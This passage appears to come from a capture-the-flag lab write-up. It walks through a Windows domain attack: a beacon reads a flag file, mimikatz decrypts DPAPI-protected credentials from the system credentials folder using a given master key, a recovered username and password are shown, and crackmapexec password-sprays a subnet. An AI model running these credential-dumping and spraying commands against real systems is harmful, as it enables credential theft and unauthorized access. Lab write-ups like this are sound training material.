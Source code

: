 ### Finding Flag:

Executing the last query on the MSSQL server will generate a beacon, and the flag can be found at the specified location.

`powerpick type C:\Users\Administrator\Desktop\flag.txt`

Flag: `flag{LinkedServer_With_Sys-Admin_is_Not_Safe}`

---
## Flag 5

The flag 5 has some AV Bypassing so generate you payload according to this.
### Commands to Run on SQL Server Beacon:

1. **List Credentials Directory:**
   ```
   ls C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials
   ```
   This command lists the contents of the directory containing credentials. It helps in identifying stored credentials on the system.

2. **Mimikatz to Decrypt Credentials:**
   ```
   mimikatz dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\3A09230CB70DA02D4386AFD7734DE84B
   
   mimikatz !sekurlsa::dpapi
   ```
   These commands utilize Mimikatz to decrypt DPAPI-protected credentials. DPAPI (Data Protection API) is used by Windows to protect and encrypt sensitive data, including credentials.

3. **Dump Scheduled Task DPAPI Credentials:**
   ```
   mimikatz dpapi::cred /in:C:\Windows\System32\config\systemprofile\AppData\Local\Microsoft\Credentials\3A09230CB70DA02D4386AFD7734DE84B /masterkey:04df8b04cfabf631b09cbc3208b28c5f873bfc054f812d6a6ba6b1861b76aa231df35a4d66b7f2bf076a9cdcb54005db97a3751563c60f6ab18734370b2d26d4
   ```
   This command specifically targets DPAPI-encrypted credentials associated with scheduled tasks, using the master key for decryption.

### Obtained Credentials:

- **Username:** HACKR\\jjohn
- **Password:** TheJsPass1@#

### Password Spray and SMB Login to Check The Validity of Credentials.:

1. **Perform Password Spray Attack:**
   ```
   crackmapexec smb 10.10.1.0/24 -u jjohn -p 'TheJsPass1@#' --continue-on-success
   ```
   This command attempts to authenticate with SMB using the obtained credentials. Password spraying is a technique used to attempt a single password against multiple usernames to gain unauthorized access.
